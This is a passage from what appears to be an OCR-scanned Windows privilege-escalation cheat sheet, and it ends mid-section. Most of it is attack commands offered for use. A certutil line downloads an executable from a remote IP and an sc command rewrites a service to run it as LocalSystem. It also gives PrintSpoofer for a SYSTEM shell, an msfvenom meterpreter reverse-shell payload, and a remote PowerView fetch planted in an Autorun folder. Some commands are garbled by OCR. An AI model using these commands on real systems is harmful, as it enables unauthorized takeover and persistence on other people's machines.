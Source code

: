 - > Exploitation - Windows [PrivEsc]

```
certutil -urlcache -f <http://10.9.1.137:803/ok.exe> ok.exe
sc config <name_ service> binPath="C:\\Users\\files\\ok.exe" obj= LocalSystem
sc stop <service_name>
sc query <service_name>
sc start <service_name>

```

https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite

### SeImpersonatePrivilege

```
PrintSpoofer64.exe -i -c cmd

```

https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

### Autorun

- > Detection - windows

```
C:\\Users\\User\\Desktop\\Tools\\Accesschk\\accesschk64.exe -wvu ""C:\\Program Files\\Autorun Program"
\\\\FILE_ALL_ACCESS

```

- > Exploitation - kali

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe

```

```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\\Program Files\\Autorun Program"
logoff

```

### Startup Applications

- > Detection - Windows

```
icacls.exe "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup" | findstr (F)
\\\\BUILTIN\\Users:(F)

```

- > msfvenom - Attacker VM

